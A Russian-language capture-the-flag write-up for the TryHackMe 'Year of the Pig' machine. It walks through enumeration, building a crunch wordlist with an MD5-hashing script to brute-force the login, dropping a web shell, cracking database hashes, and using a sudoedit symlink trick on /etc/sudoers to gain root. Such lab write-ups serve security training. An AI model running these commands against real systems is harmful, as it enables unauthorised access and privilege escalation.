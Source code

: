 # Year of the Pig

:white_check_mark:  [**Crunch**](#crunch)

:white_check_mark: [**Sqlite3**](#sqlite3)

:white_check_mark: [**Sudoedit**](#sudoedit)

:white_check_mark: [**Sudo_version**](#sudo_version)

___

## Enumeration
Сканируем ip командой:
```
nmap -sV -sV pig.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница pig.thm

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/1.png)

Переберем директории с помощью gobuster:
```
gobuster dir -u http://pig.thm -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```

```
/index.html           (Status: 200) [Size: 4801]
/login.php            (Status: 200) [Size: 2790]
/admin                (Status: 301) [Size: 302] [--> http://pig.thm/admin/]
/assets               (Status: 301) [Size: 303] [--> http://pig.thm/assets/]
/css                  (Status: 301) [Size: 300] [--> http://pig.thm/css/]   
/js                   (Status: 301) [Size: 299] [--> http://pig.thm/js/]    
/api                  (Status: 301) [Size: 300] [--> http://pig.thm/api/]
```

Перейдем на страницу **pig.thm/login.php**. Перед нами строка авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/2-1.png)

Введем случайные данные и перехватим запрос.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/2.png)

Во-первых, мы можем заметить, что наш пароль преобразуется в md5.
Во-вторых, мы не можем сбрутить пароли, т.к. всегда будем получать код ответа 200.

Но отправив запрос, на странице авторизации появляется подсказка.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/3.png)

Паролем является: памятное слово или же слово, которое легко запомнить + 2 цифры + 1 символ.

Покапавшись на странице, можно найти упоминание любимого самолета **marco - Savoia S21**.

<a name="crunch"></a>

## Crunch
Сгенерируем словарь для брута:
```
crunch 9 9 -t savoia%%^ > pass

9 9 - размер пароля от 9 до 9 символов, тоесть просто 9 символов
-t - пароль по образцу
% - любая цифра
^ - любой символ
```

Получив словарь, его нужно преобразовать в md5. Сделаем это при помощи питона.
```
import hashlib

file = open('path_to_file', 'r')
file_read = file.read()


words = list(file_read.split())

for word in words:
        hash = hashlib.md5(word.encode('utf-8')).hexdigest()
        print(hash)
```

```
python brute.py > pass_md5
```

Брутим с логином marco и словарем

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/4.png)

Находим пароль, преобразуем его обратно из md5 и логинимся.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/6.png)

Находим панель для выполнения команд. Перебрав разные варианты команд я решил, что это rabbit hole и решил попробовать эти данные для ssh и они подошли.
```
ssh marco@pig.thm
```

<a name="sqlite3"></a>

## Sqlite3
Подключивсяшь в машине и покопавшись в директории сайта, я нашел базу данных **admin.db**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/7.png)

Увы, взаимодействие с базой доступно только от пользователя www-data, поэтому закинем shell в директорию **/var/www/html**.

Запускаем слушатель и открываем shell: **http://pig.thm/shell.php**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/8.png)

Теперь, когда мы зашли под пользователем www-data, можем открыть базу данных.
```
sqlite3 admin.db
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/9.png)

Получаем пароли от юзеров. Сравнив пароль от marco с тем, который мы сбрутили, можем заметить, что они сходятся, значит пароль от curtis тоже в формате md5. Закинем его в [crackstation](https://crackstation.net/) и получим результат.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/10.png)

<a name="sudoedit"></a>
<a name="sudo_version"></a>

## Privilege escalation
Логинимся под curtis.

Просмотрим права: **sudo -l**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/11.png)

Видим, что это предположительно может быть уязвимость связанная с wildcards. Проверим версию sudo:
```
sudo --version
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/12.png)

Создадим символическую ссылку:
```
ln -s /etc/sudoers /var/www/html/assets/img/config.php

Вместо */* нужно вставить 2 существующие директории
```

У нас есть права для использования sudoedit, поэтому воспользуемся этим.
```
sudoedit /var/www/html/*/*/config.php
```

В конфигурационном файле добавим права рута пользователю curtis.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/13.png)

Выходим из файла: **Esc -> :wq**.

Получаем рута: **sudo su**.

Получаем финальный флаг.
